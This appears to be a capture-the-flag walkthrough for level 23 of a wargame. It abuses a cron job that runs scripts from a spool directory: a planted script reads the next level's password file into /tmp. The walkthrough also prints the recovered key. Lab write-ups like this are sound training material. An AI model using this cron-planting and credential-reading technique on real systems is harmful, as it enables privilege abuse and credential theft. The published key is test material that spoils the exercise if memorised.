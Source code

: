 # Commands for level 23
```cd /etc/cron.d```
```cat cronjob_bandit24```
```cat /usr/bin/cronjob_bandit24.sh```
```cd /var/spool/bandit24/foo```
```vim get.sh```
create a new script and add a simple line to it top copy the password in a file we can access in this case, let's put it in /tmp/rockyou
```#!/bin/bash```
```cat /etc/bandit_pass/bandit24 > /tmp/rockyou```
in the next minute, check the contents of /tmp/rockyou
```cat /tmp/rockyou```
## Key
__VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar__
